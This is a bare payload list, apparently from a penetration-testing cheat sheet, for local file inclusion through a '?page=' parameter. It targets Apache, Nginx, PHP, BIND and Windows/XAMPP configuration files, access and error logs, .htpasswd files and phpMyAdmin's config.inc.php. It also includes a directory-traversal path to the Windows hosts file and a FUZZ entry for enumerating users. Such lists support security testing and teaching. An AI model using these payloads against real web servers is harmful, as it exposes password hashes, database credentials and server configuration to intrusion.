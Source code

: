 ```sh

# Apache
?page=/etc/apache2/sites-enabled/000-default.conf
?page=/etc/apache2/sites-enabled/domain.conf
?page=/etc/apache2/sites-enabled/example.com.conf
?page=/etc/apache2/sites-enabled/sub.example.com.conf
?page=/etc/apache2/sites-enabled/sub.conf
?page=/etc/apache2/sites-available/domain.conf
?page=/etc/apache2/sites-available/example.com.conf
?page=/etc/apache2/sites-available/sub.example.com.conf
?page=/etc/apache2/sites-available/sub.conf
?page=/etc/apache2/.htpasswd
?page=/var/log/apache/access.log
?page=/var/log/apache/error.log
?page=/var/log/apache2/access.log
?page=/var/log/apache2/error.log

# Nginx
?page=/var/log/nginx/access.log
?page=/var/log/nginx/error.log
?page=/etc/nginx/nginx.conf
?page=/etc/nginx/conf.d/.htpasswd
?page=/etc/nginx/conf.d/example.com.conf
?page=/etc/nginx/conf.d/example.conf
?page=/etc/nginx/conf.d/subdomain.example.com.conf
?page=/etc/nginx/conf.d/subdomain.conf
?page=/etc/nginx/sites-available/example.com.conf
?page=/etc/nginx/sites-enabled/default
?page=/etc/nginx/sites-enabled/example.com.conf
?page=/usr/local/nginx/conf/nginx.conf
?page=/usr/local/etc/nginx/nginx.conf

# PHP web conf (x.x is specified PHP version)
?page=/etc/php/x.x/apache2/php.ini
?page=/etc/php/x.x/cli/php.ini
?page=/etc/php/x.x/fpm/php.ini

# BIND
?page=/etc/bind/named.conf
?page=/etc/bind/named.conf.options
?page=/etc/bind/named.conf.local
?page=/etc/bind/named.conf.default-zones

# Windows
?page=../../../../../../../../windows/system32/drivers/etc/hosts
?page=C:/Windows/System32/drivers/etc/hosts
?page=C:/Users/Public/Desktop/desktop.ini
?page=C:/Users/FUZZ/Desktop/desktop.ini # user enumeration
?page=C:/inetpub/wwwroot/
?page=C:/xampp/apache/conf/httpd.conf
?page=C:/xampp/apache/conf/extra/httpd-userdir.conf
?page=C:/xampp/apache/conf/extra/httpd-vhosts.conf
?page=C:/xampp/apache/conf/extra/httpd-xampp.conf
?page=C:/xampp/apache/conf/extra/httpd-ajp.conf
?page=C:/xampp/apache/logs/access.log
?page=C:/xampp/apache/logs/error.log
?page=C:/xampp/cgi-bin/example.cgi
?page=C:/xampp/htdocs/example.com/index.php
?page=C:/xampp/htdocs/sub.example.com/index.php
?page=C:/xampp/phpMyAdmin/index.php
?page=C:/xampp/phpMyAdmin/config.inc.php
```
